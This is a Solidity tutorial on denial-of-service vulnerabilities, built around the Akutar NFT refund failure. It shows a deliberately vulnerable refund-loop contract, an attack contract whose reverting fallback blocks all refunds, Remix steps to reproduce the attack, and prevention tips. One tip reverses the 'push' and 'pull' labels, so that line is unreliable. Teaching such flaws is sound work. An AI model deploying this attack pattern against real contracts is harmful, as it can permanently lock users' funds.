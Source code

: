 ```yaml
---
title: S09. Denial of Service (DoS)
tags:
    - solidity
    - security
    - fallback
---
```


# WTF Solidity S09. Denial of Service (DoS)

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will introduce the Denial of Service (DoS) vulnerability in smart contracts and discuss methods for prevention. The NFT project Akutar once suffered a loss of 11,539 ETH, worth $34 million at the time, due to a DoS vulnerability.

## DoS

In Web2, a Denial of Service (DoS) attack refers to the phenomenon of overwhelming a server with a large amount of junk or disruptive information, rendering it unable to serve legitimate users. In Web3, it refers to exploiting vulnerabilities that prevent a smart contract from functioning properly.

In April 2022, a popular NFT project called Akutar raised 11,539.5 ETH through a Dutch auction for its public launch, achieving great success. Participants who held their community Passes were supposed to receive a refund of 0.5 ETH. However, when they attempted to process the refunds, they discovered that the smart contract was unable to function correctly, resulting in all funds being permanently locked in the contract. Their smart contract had a DoS vulnerability.

![](./img/S09-1.png)

## Vulnerability Example

Now let's study a simplified version of the Akutar contract called `DoSGame`. This contract has a simple logic: when the game starts, players call the `deposit()` function to deposit funds into the contract, and the contract records the addresses of all players and their corresponding deposits. When the game ends, the `refund()` function is called to refund ETH to all players in sequence.

```solidity
// SPDX-License-Identifier: MIT
// english translation by 22X
pragma solidity ^0.8.21;

// Game with DoS vulnerability, players deposit money and call refund to withdraw it after the game ends.
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;
    
    // All players deposit ETH into the contract
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Record the deposit
        balanceOf[msg.sender] = msg.value;
        // Record the player's address
        players.push(msg.sender);
    }

    // Game ends, refund starts, all players receive refunds one by one
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Loop through all players to refund them
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

The vulnerability here lies in the `refund()` function, where a loop is used to refund the players using the `call` function, which triggers the fallback function of the target address. If the target address is a malicious contract and contains malicious logic in its fallback function, the refund process will not be executed properly.

```
(bool success, ) = player.call{value: refundETH}("");
```

Below, we write an attack contract where the `attack()` function calls the `deposit()` function of the `DoSGame` contract to deposit funds and participate in the game. The `fallback()` fallback function reverts all transactions sending ETH to this contract, attacking the DoS vulnerability in the `DoSGame` contract. As a result, all refunds cannot be executed properly, and the funds are locked in the contract, just like the over 11,000 ETH in the Akutar contract.

```solidity
contract Attack {
    // DoS attack during refund
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participate in the DoS game and deposit
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reproduce on `Remix`

**1.** Deploy the `DoSGame` contract.
**2.** Call the `deposit()` function of the `DoSGame` contract to make a deposit and participate in the game.
![](./img/S09-2.png)
**3.** At this point, if the game is over and `refund()` is called, the refund will be executed successfully.
![](./img/S09-3.jpg)
**3.** Redeploy the `DoSGame` contract and deploy the `Attack` contract.
**4.** Call the `attack()` function of the `Attack` contract to make a deposit and participate in the game.
![](./img/S09-4.jpg)
**5.** Call the `refund()` function of the `DoSGame` contract to initiate a refund, but it fails to execute properly, indicating a successful attack.
![](./img/S09-5.jpg)

## How to Prevent

Many logic errors can lead to denial of service in smart contracts, so developers need to be extremely cautious when writing smart contracts. Here are some areas that require special attention:

1. Failure of external contract function calls (e.g., `call`) should not result in the blocking of important functionality. For example, removing the `require(success, "Refund Fail!");` statement in the vulnerable contract allows the refund process to continue even if a single address fails.
2. Contracts should not unexpectedly self-destruct.
3. Contracts should not enter infinite loops.
4. Parameters for `require` and `assert` should be set correctly.
5. When refunding, allow users to claim funds from the contract (push) instead of sending funds to users in batch (pull).
6. Ensure that callback functions do not interfere with the normal operation of the contract.
7. Ensure that the main business of the contract can still function properly even when participants (e.g., `owner`) are absent.

## Summary

In this lesson, we introduced the denial of service vulnerability in smart contracts, which caused the Akutar project to lose over 10,000 ETH. Many logic errors can lead to DoS attacks, so developers need to be extremely cautious when writing smart contracts. For example, refunds should be claimed by users individually instead of being sent in batch by the contract.

